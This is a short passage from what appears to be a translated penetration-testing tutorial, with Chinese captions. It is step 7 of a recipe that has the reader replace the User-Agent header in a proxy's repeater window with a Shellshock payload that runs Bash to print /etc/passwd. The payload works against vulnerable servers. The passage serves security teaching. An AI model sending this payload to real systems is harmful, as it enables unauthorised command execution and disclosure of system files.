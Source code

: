     ![How to do it...](img/image_07_052.jpg)

7.  Go to the repeater window and change the user agent to the following:

    ```
          User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat       /etc/passwd;'

    ```

    请看以下屏幕截图：

    ![How to do it...](img/image_07_053.jpg)
